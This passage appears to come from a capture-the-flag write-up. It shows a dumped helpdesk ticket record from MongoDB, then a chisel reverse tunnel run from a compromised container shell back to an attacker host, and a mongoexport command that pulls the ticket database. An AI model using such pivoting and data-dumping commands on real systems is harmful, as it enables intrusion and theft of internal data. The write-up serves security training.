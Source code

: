     { "_id" : ObjectId("62478d83eadb13001b66b62c"), "deleted" : false, "status" : 0, "tags" : [ ], "subscribers" : [ ObjectId("6243c28f1e0d4d001b0740d6"), ObjectId("6243c0be1e0d4d001b0740d4") ], "subject" : "Need help building the CMS", "group" : ObjectId("6244610ff2c8c07f687ba8a4"), "type" : ObjectId("623c8b20855cc5001a8ba137"), "priority" : ObjectId("623c8b24645f88065a113d67"), "issue" : "<p>Hey Jeremy, <br />Can you help me work on the CMS at all this week?  The base install is completed, but I need your expertise to make sure I did everything correctly.</p>\n", "date" : ISODate("2022-04-01T23:40:51.552Z"), "comments" : [ { "deleted" : false, "_id" : ObjectId("62478e3a608eea1532bcd1b9"), "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-01T23:43:54.776Z"), "comment" : "<p>Please don&#39;t expose that application publically.  I told you I would help when I had time and right now I&#39;m just too busy.<br>Build it out if you&#39;d like, but...just don&#39;t do anything stupid.</p>\n" }, { "deleted" : false, "_id" : ObjectId("624f49ca8576ce001bb6702e"), "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-07T20:30:02.359Z"), "comment" : "<p>Don&#39;t worry. I moved it off of the main server and into a container with SSL encryption.</p>\n" } ], "notes" : [ ], "attachments" : [ ], "history" : [ { "_id" : ObjectId("62478d83eadb13001b66b62d"), "action" : "ticket:created", "description" : "Ticket was created.", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-01T23:40:51.573Z") }, { "_id" : ObjectId("62478d94608eea1532bcd1b8"), "action" : "ticket:set:assignee", "description" : "Jeremy Hammond was set as assignee", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-01T23:41:08.431Z") }, { "_id" : ObjectId("62478e3a608eea1532bcd1ba"), "action" : "ticket:comment:added", "description" : "Comment was added", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-01T23:43:54.787Z") }, { "_id" : ObjectId("624f49ca8576ce001bb6702f"), "action" : "ticket:comment:added", "description" : "Comment was added", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-07T20:30:02.380Z") }, { "_id" : ObjectId("624f4a828576ce001bb67031"), "action" : "ticket:comment:updated", "description" : "Comment was updated: 624f49ca8576ce001bb6702e", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-07T20:33:06.175Z") } ], "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "uid" : 1008, "__v" : 4, "assignee" : ObjectId("6243c0be1e0d4d001b0740d4"), "updated" : ISODate("2022-04-07T20:30:02.374Z") }



The tickets are a bit of a pain to read directly from Mongo. For one,
it's all jammed on the screen. But also all the foreign objects are
shown like `"owner" : ObjectId("623c8b20855cc5001a8ba13c")`, which means
I can't even copy this and pipe it to `jq` on my own system because
these things aren't valid JSON.

I'll use `mongoexport` to get the results as pure JSON (and it fills out
the pointers as well). I had some issues getting it to work over
`proxychains`, so I'll start another tunnel with `chisel`:



    www-data@3c371615b7aa:/tmp$ ./chisel_1.7.7_linux_amd64 client 10.10.14.6:8000 R:27017:172.17.0.4:27017
    2022/11/28 21:59:41 client: Connecting to ws://10.10.14.6:8000
    2022/11/28 21:59:42 client: Connected (Latency 87.048435ms)



Now 27017 on my host forwards to 172.17.0.4:27017.

My initial run errors out:



    oxdf@hacky$ mongoexport --host="127.0.0.1:27017" --db=trudesk --collection=tickets --out=tickets.json
    2022-11-28T22:11:42.292+0000    connected to: 127.0.0.1:27017
    2022-11-28T22:11:42.380+0000    Failed: BSON field 'FindCommandRequest.snapshot' is an unknown field.

